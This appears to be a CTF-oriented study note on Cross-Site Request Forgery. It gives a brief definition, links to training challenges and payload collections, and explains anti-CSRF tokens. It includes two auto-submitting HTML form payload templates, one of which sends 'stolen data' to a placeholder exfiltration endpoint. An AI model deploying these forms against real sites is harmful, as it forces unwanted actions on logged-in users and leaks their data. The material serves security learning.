 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack.

⭐ You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

📚 During CTFs, it may take between one and five minutes.
</div><div>

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

Many tools have built-in switches to handle/bypass such forms.
</div><div>
</div></div>